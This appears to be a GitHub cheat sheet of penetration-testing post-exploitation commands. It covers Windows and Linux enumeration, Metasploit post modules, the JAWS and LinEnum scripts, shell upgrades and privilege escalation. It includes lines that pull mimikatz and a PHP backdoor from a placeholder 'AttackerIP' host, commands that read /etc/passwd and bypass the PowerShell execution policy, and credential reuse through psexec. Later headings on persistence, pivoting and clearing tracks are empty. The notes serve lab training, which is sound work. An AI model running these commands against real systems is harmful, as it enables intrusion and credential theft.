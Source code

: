 <h2>Methodology</h2>
1. Local Enumeration
2. Transferring Files
3. Upgrading Shells
4. Privilege Escalation
5. Persistence
6. Dumping and Cracking Hashes 
7. Pivoting
8. Clearing Tracks

<h2> Windows Enumeration </h2>

```
sysinfo
```

```
systeminfo
```

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

<h4> Users & Groups </h4>
in meterpreter
```
getprivs
```

```
search enum_logged_on_users
```

manual:
```
shell
whoami
whoami /priv
query user
net users
net user administrator
net user guest


net local group
net localgroup administrators

```

<h4> Network Infrastructure </h4>
```
ipconfig /all
```

```
route print
```

```
arp -a
```

```
netstat -ano
```

<h4> Processes & Services</h4>
```
ps
```

```
pgrep explorer.exe
```

```
migrate id
```

```
net start
```

```
wmic service list brief
```

```
tasklist /SVC
```

```
schtasks /query /fo LIST
```

<h4>Automate Windows Local Enumeration</h4>
```
use post/windows/gather/win_privs
```
```
set SESSION 1
```

```
use post/windows/gather/enum_logged_on_users
```

```
use post/windows/gather/checkvm
```

```
use post/windows/gather/enum_applications
```

```
use post/windows/gather/enum_computers
```

```
use post/windows/gather/enum_patches
```

**JAWS** is an open-source PowerShell script designed to help penetration testers automate local enumeration and identify privilege escalation vectors on Windows systems.

To use this script, you will need to copy the script into your lab environment. To begin with, you can access the script through the following GitHub repository: **https://github.com/411Hall/JAWS**

```
cd C:\\
```
```
cd temp
```
```
upload /root/Desktop/jaws-enum.ps1
```
```
upload
```
```
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```
```
download JAWS-Enum.txt
```

<h2> Linux Enumeration </h2>

```
sessions -u 1
sessions
sessions -i 2
```

```
sysinfo
```

```
shell
/bin/bash -i
hostname
```
```
cat /etc/issue
cat /etc/*release
```
```
uname -a
```
```
lscpu
```
```
df -h
```


```
groups root
```
```
cat /etc/passwd
```
```
groups
```
```
who
```
```
lastlog
```

<h4>Automate Linux Network Infrastructure</h4>

```
netstat
```
```
route
```
```
cat /etc/networks
```
```
cat /etc/hosts
```
```
cat /etc/resolv.conf
```

<h4> Cron Tabs </h4>
```
ls -al /etc/cron*
```

<h4>Automate Linux Local Enumeration</h4>
```
use post/linux/gather/enum_configs
```
```
use post/linux/gather/enum_network
```
```
use post/linux/gather/enum_system
```

LinEnum is a bash script that is used by penetration testers to automate local enumeration and identify privilege escalation vectors on Linux systems.

To use this script, you will need to copy the script into your lab environment. To begin with, you can access the script through the following GitHub repository: https://github.com/rebootuser/LinEnum

```
cd /tmp
```
```
upload /root/Desktop/LinEnum.sh
```
```
shell
/bin/bash -i
chmod +x LinEnum.sh
./LinEnum.sh
```

<h2> Transferring Files </h2>

AttackerMachine -----> TargetMachine

```
python -m SimpleHTTPServer 80
```

```
python3 -m http.server 80
```

<h4> Windows </h4>
```
certutil -urlcache -f http://AttackerIP/mimikatz.exe mimikatz.exe
```

<h4>Linux</h4>
```
wget http://AttackerIP/phpbackdoor.php
```
<h2>Upgrading Shells </h2>

Method 1: (if bash is installed)
```
/bin/bash -i
```

```
cat /etc/shells
```

```
/bin/sh
```

```
python -v
python -c 'import pty;pty.spawn("/bin/bash")'
```

```
perl -e 'exec "/bin/bash"'
```

```
ruby: exec "/bin/bash"
```

```
env
// if PATH is not found in it then type this
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin
```
<h2> Escalation </h2>

https://github.com/itm4n/PrivescCheck
We can get some credentials 
```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

```
use post/multi/manager/shell_to_meterpreter
set WIN_TRANSFER VBS
```

we use the credentials from previous commands.
```
psexec.py Administration@10.10.10.10
```
<h2>Persistance</h2>
<h2> Dumping & Cracking </h2>
<h2> Pivoting </h2>
<h2> Clearing </h2>
